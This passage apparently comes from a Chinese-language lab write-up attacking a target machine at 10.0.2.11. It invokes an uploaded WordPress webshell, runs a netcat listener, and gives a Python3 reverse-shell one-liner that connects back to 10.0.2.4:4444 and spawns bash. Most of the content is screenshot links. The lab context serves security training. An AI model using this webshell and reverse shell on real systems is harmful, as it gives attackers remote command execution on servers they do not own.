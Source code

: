 ![image-20211117142653949](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117142653949.png)



插件默认路径为：

http://10.0.2.11/wordpress/wp-content/plugins/shell.php

![image-20211117142901551](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117142901551.png)

尝试执行id命令：

http://10.0.2.11/wordpress/wp-content/plugins/shell.php?cmd=id

![image-20211117143020914](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117143020914.png)

确定了webshell上传成功，且可执行操作系统命令

##### 5.2.2 确认目标靶机上可利用的信息/软件

###### Kali监听4444端口

```
nc -nvlp 4444
```

![image-20211117143051516](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117143051516.png)

###### 确定目标靶机是否有nc

（存在，但本次尝试其他方法）

![image-20211117143209631](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117143209631.png)

###### 确定目标靶机是否有Python环境

![image-20211117144310167](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117144310167.png)

![image-20211117144328196](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117144328196.png)

![image-20211117144402379](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117144402379.png)

目标靶机存在Python3环境

##### 5.2.3使用python3反弹shell代码

```
?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.4",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![image-20211117145344122](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117145344122.png)

![image-20211117145402436](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117145402436.png)
